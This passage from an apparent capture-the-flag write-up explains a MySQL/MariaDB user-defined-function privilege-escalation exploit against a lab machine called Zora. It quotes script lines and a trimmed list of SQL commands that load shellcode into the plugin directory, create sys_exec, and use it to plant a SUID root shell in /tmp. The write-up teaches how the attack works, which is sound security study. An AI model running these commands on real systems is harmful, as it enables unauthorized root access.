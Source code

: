 ```bash
101  os.system('mysql -u root -p\'' + password + '\' -e "create function sys_exec returns int soname \'%s\'\G"' % udf_filename)
102
103  print "Checking if sys_exec was crated..."
104  cmd='mysql -u root -p\'' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"';
105  res = subprocess.check_output(cmd, shell=True);
...
110  if res:
111          print "sys_exec was found: %s" % res
112          print "Generating a suid binary in /tmp/sh..."
113          os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
114
115          print "Trying to spawn a root shell..."
116          pty.spawn("/tmp/sh");
```

The first thing we notice is a shellcode variable defined on lines 40-45. The SQL query at line 71 obtains the plugin directory (remember this is the variable that we found was not standard on Zora). Next, on line 92, the code dumps the shellcode binary content into a file within the plugin directory. Line 101 creates a function named _sys_exec_ leveraging the uploaded binary file. Finally, the script checks if the function was successfully created on line 104 and if this is the case, the function is executed on line 113. Reading a bit more about the MySQL _CREATE FUNCTION_ syntax suggests that the binary content of the shellcode variable is supposed to be a shared library that implements and exports the function(s) we want to create within the database.

Essentially, this entire script is only running five commands. If we trim down the code to its essential MySQL commands, we obtain the following:

```bash
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

Since we already have an interactive MariaDB shell, we could theoretically run these commands directly in the MariaDB shell against Zora. However, we want to make sure we understand what we are about to execute before proceeding.

# Exploitation

### Attempting to Exploit the Database

While the individual commands give us no reason for concern, we have no idea what the shellcode is doing. Instead, we will replace the shellcode with something that we are in control of. The references in the exploit state that raptor_udf.c was used. A quick Google search reveals a relevant Exploit Database entry and a note at the bottom of the comments mentions a GitHub project that looks very promising.
